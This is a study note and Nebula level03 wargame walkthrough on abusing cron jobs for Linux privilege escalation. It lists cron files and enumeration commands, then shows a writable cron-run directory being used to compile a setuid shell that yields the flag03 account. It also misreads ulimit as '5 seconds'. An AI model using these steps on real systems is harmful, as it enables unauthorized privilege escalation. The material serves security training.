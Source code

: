 ## Linux Scheduled Tasks

**Cronjobs**
```
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
**System Timer**
```
systemctl list-timers --all
NEXT                          LEFT     LAST                          PASSED             UNIT                         ACTIVATES
Mon 2019-04-01 02:59:14 CEST  15h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily.timer              apt-daily.service
Mon 2019-04-01 06:20:40 CEST  19h left Sun 2019-03-31 10:52:49 CEST  24min ago          apt-daily-upgrade.timer      apt-daily-upgrade.service
Mon 2019-04-01 07:36:10 CEST  20h left Sat 2019-03-09 14:28:25 CET   3 weeks 0 days ago systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service

3 timers listed.
```
**Crontab**

> The cron daemon on Linux runs tasks in the background at specific
> times; it’s like the Task Scheduler on Windows. Add tasks to your
> system’s crontab files using the appropriate syntax and cron will
> automatically run them for you.

Format
```
minute(0-59) hour(0-23) day(1-31) month(1-12) weekday(0-6) command
```
Example 
```
30 10 * * * echo "It's 10:30 AM"
```
**Nebula Level03** [ [Description](https://exploit-exercises.lains.space/nebula/level03/) ]

```
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
writable.sh is running every things in writable.d directory. But which is running writable.sh? ( I googled it )
```
#Cron Job Hourly Example
sudo chmod +x /etc/cron.hourly/yourscript
#In Nebula
level03@nebula:/home/flag03$ cat /etc/cron.hourly/.placeholder
.bash_logout  .bashrc       .profile      writable.d/   writable.sh
```
**What is Ulimit?** [ [Man Page](https://ss64.com/bash/ulimit.html) ]

> “ulimit” is an interesting Linux shell command that can set or report
> the resource limit of the current user.

```
ulimit -> current limit
ulimit -a -> Print all limit for current user
etc...
ulimit -t -> The maximum amount of cpu time in seconds.
```
Its runnning all files in writable.d for every 5 seconds and delete them.
Checking
```
#chk.sh
ls -al >> /tmp/chk_res
# give executable permission
chmod u+x /tmp/chk_res
```
Result ( flag03 own this file )
```
level03@nebula:/home/flag03/writable.d$ ls -al /tmp/chk_res
-rw-rw-r-- 1 flag03 flag03 416 2020-05-09 12:51 /tmp/chk_res
```
Reusing our [shellspawn.c](https://github.com/LunaM00n/LOL-Pwn/blob/master/Notes/02.Linux_Environment_Variables.md)

Shell spawning ( c file should store in /tmp because writable.sh deleting it )
```
#Compiling into executable file
gcc -o /home/flag03/shell /tmp/shellspawn.c
#Give Permission with setuid
chmod 4777 /home/flag03/shell
```
Result
```
level03@nebula:/home/flag03$ ls -l shell
-rwsrwxrwx 1 flag03 flag03 7326 2020-05-09 13:09 shell
level03@nebula:/home/flag03$ ./shell
sh-4.2$ whoami
flag03
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

**References**
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks)
[https://www.howtogeek.com/101288/how-to-schedule-tasks-on-linux-an-introduction-to-crontab-files/](https://www.howtogeek.com/101288/how-to-schedule-tasks-on-linux-an-introduction-to-crontab-files/)
[https://askubuntu.com/questions/7676/function-of-etc-cron-hourly](https://askubuntu.com/questions/7676/function-of-etc-cron-hourly)
[https://linuxhint.com/linux_ulimit_command/](https://linuxhint.com/linux_ulimit_command/)
[https://linux.die.net/man/1/bash](https://linux.die.net/man/1/bash)
